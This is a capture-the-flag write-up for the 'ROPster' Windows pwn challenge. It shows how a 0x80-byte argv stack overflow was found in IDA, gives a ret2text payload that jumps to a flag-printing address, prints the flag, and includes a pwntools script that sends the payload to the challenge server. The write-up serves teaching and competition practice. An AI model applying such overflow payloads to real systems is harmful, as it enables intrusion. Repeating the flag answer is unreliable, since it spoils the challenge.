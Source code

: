 # Cyberthon: CSIT

##### The ROPster [1500]

_You have found an artefact left behind by the attacker. Now is your chance to RE the executable. Only those who exploit it successfully will obtain the hidden flag._

`nc 128.199.181.212 8123`

Files: `Ropster.exe`

#### Poking around

As it's namesake, `The ROPSter` is a Return-Oriented-Programming pwn challenge. ROP is something I've tackled often in linux, but it's rare to see one involving an `.exe`.

Regardless, every binary exploitation challenge starts with 3 simple things:

1. `checksec`, which is unfortunately not an option:![image-20200502175146916](image-20200502175146916.png)
2. IDA Pro, which is unfortunately rather unhelpful: ![image-20200502175248990](image-20200502175248990.png)
3. Running random inputs on the binary, which is evidently the only option

So. We'll start off straight by running the bare exe: ![image-20200502175541137](image-20200502175541137.png)

`stdin` is clearly unavailable, so the only alternate source of input must be `argv`:

![image-20200502180000870](image-20200502180000870.png)

And if you give an input that's long enough (`0x80`), you'll see the Windows equivalent of a segfault:

![image-20200502182024737](image-20200502182024737.png)

We now know that the binary requires a buffer overflow through `argv`^1^. Where do we go from here?

#### Interactive Disassembly

The decompiled output for `Ropster.exe` is pretty terrible by default. IDA Pro can't guess the function labels on it's own, and we'll have to find out where execution starts on our own.

To find a reference to `argv`, we'll search for the string that's printed along with it, `"ROPSTER:"`:

![image-20200502183255416](image-20200502183255416.png)

We can make a couple of deductions.

* `sub_4040133BB` is essentially `printf()`, taking in `argv` from `v2`. At the start of the function definition, `v2` is located at `[ebp-80h]`, so the buffer takes in 0x80 chars of input before Bad Stuff happens, as empirically found earlier on.

![image-20200502183637982](image-20200502183637982.png)

* The variable `g41f` is probably an actual flag on server-side. This tells us where we need to jump:

![image-20200502184548512](image-20200502184548512.png)

So if we model the stack something like,

```
+---------buffer---------|-------sp-------|-return pointer-|
|        'A'*0x80        | <random_value> |   0x4040707D   |
<-----------80-----------|-------04-------|-------04-------|
```

We'll get the flag printed immediately.

![image-20200502185540288](image-20200502185540288.png)

Incidentally, this makes the challenge a simple `ret2text`, rather than a full-blown exercise in ROP. Perhaps an unintended solution?

#### Flag

`Cyberthon{SuChaGr34tROPster}`

#### Code

This payload will not work for `argv` input.^2^

```python
from pwn import *
payload = 'A'*0x80 + p32(0x13371337) + p32(0x4040707D)
r = remote('128.199.181.212', 8123)
r.sendline(payload)
r.interactive()
```

#### Footnotes

1. Naturally, `argv` isn't accessible server-side. Presumably, the `stdin` of the server is getting piped as an argument.
2. Presumably, something in windows is messing with attempts to run the exploit on `Ropster.exe` locally.